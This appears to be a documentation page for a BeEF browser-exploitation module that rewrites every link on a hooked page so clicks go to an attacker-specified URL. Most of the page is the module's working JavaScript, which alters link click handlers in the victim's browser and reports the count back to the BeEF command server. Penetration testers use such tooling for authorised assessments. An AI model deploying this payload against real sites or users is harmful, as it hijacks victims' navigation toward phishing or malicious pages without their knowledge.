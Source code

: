 ## Summary

* **Objective**: Replace all links to a specified link
* **Authors**: xntrik, @bilawalhameed, passbe
* **Browsers**: All except Chrome

* [Code](https://github.com/beefproject/beef/tree/master/modules/hooked_domain/link_rewrite_click_events)

## Internal Working

sets a javascript callback function on the element of all links to redirect to a specified link when clicked.

```js

beef.execute(function() {
    beef.net.send('<%= @command_url %>', <%= @command_id %>, 'result='+beef.dom.rewriteLinksClickEvents('<%= @url %>')+' links rewritten to <%= @url %>');
});

//rewriteLinksClickEvents function

rewriteLinksClickEvents: function(url, selector) {
        var sel = (selector == null) ? 'a' : selector;
        return $j(sel).each(function() {
                if ($j(this).attr('href') != null)
                {
                        $j(this).click(function() {this.href=url});
                }
        }).length;
},

```

## Feedback
